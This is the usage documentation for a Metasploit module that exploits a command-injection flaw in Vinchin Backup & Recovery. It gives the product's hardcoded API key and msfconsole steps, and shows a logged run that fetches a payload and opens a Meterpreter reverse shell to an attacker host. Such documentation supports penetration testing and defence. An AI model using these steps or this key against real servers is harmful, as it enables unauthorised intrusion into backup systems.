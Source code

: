 ## Vulnerable Application

This module exploits a vulnerability in Vinchin Backup & Recovery versions 5.0.x, 6.0.x, 6.7.x, and 7.0.x. To prepare the environment:

1. Download Vinchin Backup & Recovery version 5.0.x, 6.0.x, 6.7.x, or 7.0.x.
2. Install the software on a Linux-based server using the downloaded ISO.
3. During the installation, ensure that the network interface is active and configured.
4. After installation, verify that the Vinchin Backup & Recovery service is operational and accessible over the network.

*Note: The module is designed to work with the specified versions. Functionality with other versions has not been confirmed.*

## Verification Steps

1. Install a vulnerable version of Vinchin Backup & Recovery (versions 5.0.x, 6.0.x, 6.7.x, or 7.0.x).
2. Start msfconsole in your Metasploit environment.
3. Do: `use exploit/linux/http/vinchin_backup_recovery_cmd_inject`
4. Set the RHOSTS to the target IP address or hostname.
5. Do: `run`
6. If the target is vulnerable, the exploit will execute the specified payload or command.

## Options

Here are the specific options for the `exploit/linux/http/vinchin_backup_recovery_cmd_inject` module:

#### RHOSTS

- **Description**: Specifies the target address or range of addresses.
- **Default Value**: None. It must be set by the user.

#### RPORT

- **Description**: The port on which the Vinchin Backup & Recovery service is running.
- **Default Value**: 443 (this is not configurable in the default Vinchin Backup & Recovery setup).

#### SSL

- **Description**: Specifies whether to use SSL for the connection.
- **Default Value**: True, as Vinchin typically runs over HTTPS.

#### TARGETURI

- **Description**: The base path to the Vinchin Backup & Recovery application.
- **Default Value**: `/`

#### APIKEY

- **Description**: The hardcoded API key required to authenticate to the API.
- **Default Value**: `6e24cc40bfdb6963c04a4f1983c8af71`

## Scenarios

### Successful Exploitation against Vinchin Backup & Recovery 7.0.1.26282

This scenario demonstrates exploiting the Vinchin Backup & Recovery version 7.0.1.26282 on a Linux server.

**Environment**:
- Vinchin Backup & Recovery 7.0.1.26282
- Linux Server
- Metasploit Framework

**Steps**:

1. Start `msfconsole`.
2. Load the exploit module:
```
use exploit/linux/http/vinchin_backup_recovery_cmd_inject
```
4. Set the required options:
```
set RHOSTS [target IP]
set APIKEY [API Key]
```
5. Optionally set a payload and configure LHOST and LPORT.
6. Execute the exploit:
```
exploit
```

**Expected Output**:

```
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > options

Module options (exploit/linux/http/vinchin_backup_recovery_cmd_inject):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   APIKEY     6e24cc40bfdb6963c04a4f1983c8  yes       The hardcoded API key
              af71
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:
                                                      port][...]
   RHOSTS                                   yes       The target host(s), see https://docs.metasploit.co
                                                      m/docs/using-metasploit/basics/using-metasploit.ht
                                                      ml
   RPORT      443                           yes       The target port (TCP)
   SSL        true                          no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                  no        Path to a custom SSL certificate (default is rando
                                                      mly generated)
   TARGETURI  /                             yes       The base path to the Vinchin Backup & Recovery app
                                                      lication
   URIPATH                                  no        The URI to use for this exploit (default is random
                                                      )
   VHOST                                    no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                        address on the local machine or 0.0.0.0 to listen on all address
                                       es.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting            Required  Description
   ----                ---------------            --------  -----------
   FETCH_COMMAND       CURL                       yes       Command to fetch payload (Accepted: CURL, FT
                                                            P, TFTP, TNFTP, WGET)
   FETCH_DELETE        false                      yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JSSwiKfcOw                 no        Name to use on remote system when storing pa
                                                            yload; cannot contain spaces.
   FETCH_SRVHOST                                  no        Local IP to use for serving payload
   FETCH_SRVPORT       8080                       yes       Local port to use for serving payload
   FETCH_URIPATH                                  no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /usr/share/nginx/vinchin/  yes       Remote writable dir to store payload; cannot
                       tmp                                   contain spaces.
   LHOST               192.168.1.5                yes       The listen address (an interface may be spec
                                                            ified)
   LPORT               4444                       yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > set rhosts 192.168.1.3
rhosts => 192.168.1.3
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > check

[*] Detected Vinchin version: 7.0.1.26282
[+] 192.168.1.3:443 - The target is vulnerable.
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Vinchin version: 7.0.1.26282
[+] The target is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.3:58960) at 2023-11-21 02:00:57 +0100

meterpreter > sysinfo 
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
